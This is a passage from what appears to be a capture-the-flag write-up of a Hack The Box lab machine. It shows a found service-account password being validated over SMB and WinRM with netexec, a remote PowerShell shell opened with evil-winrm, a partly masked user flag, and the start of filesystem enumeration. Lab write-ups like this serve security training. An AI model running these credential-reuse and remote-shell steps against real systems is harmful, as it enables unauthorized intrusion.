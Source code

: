 ```

oxdf@hacky$ netexec smb authority.htb -u svc_ldap -p 'lDaP_1n_th3_cle4r!'
SMB         10.10.11.222    445    AUTHORITY        [*] Windows 10.0 Build 17763 x64 (name:AUTHORITY) (domain:authority.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.222    445    AUTHORITY        [+] authority.htb\svc_ldap:lDaP_1n_th3_cle4r!
oxdf@hacky$ netexec winrm authority.htb -u svc_ldap -p 'lDaP_1n_th3_cle4r!'
SMB         10.10.11.222    5985   AUTHORITY        [*] Windows 10.0 Build 17763 (name:AUTHORITY) (domain:authority.htb)
HTTP        10.10.11.222    5985   AUTHORITY        [*] http://10.10.11.222:5985/wsman
HTTP        10.10.11.222    5985   AUTHORITY        [+] authority.htb\svc_ldap:lDaP_1n_th3_cle4r! (Pwn3d!)

```

I’ll go directly to WinRM and get a shell:

```

oxdf@hacky$ evil-winrm -i authority.htb -u svc_ldap -p 'lDaP_1n_th3_cle4r!'

Evil-WinRM shell v3.4

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc_ldap\Documents>

```

And the user flag:

```
*Evil-WinRM* PS C:\Users\svc_ldap\desktop> cat user.txt
31d4b9bf************************

```

## Shell as administrator

### Enumeration

#### Filesystem

The filesystem is quite bare. There no other user directory on the box other than `Public` (which is empty) and `Admistrator` (which is where I want to get):

```
*Evil-WinRM* PS C:\users> ls

    Directory: C:\users

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        3/17/2023   9:31 AM                Administrator
d-r---         8/9/2022   4:35 PM                Public
d-----        3/24/2023  11:27 PM                svc_ldap

```
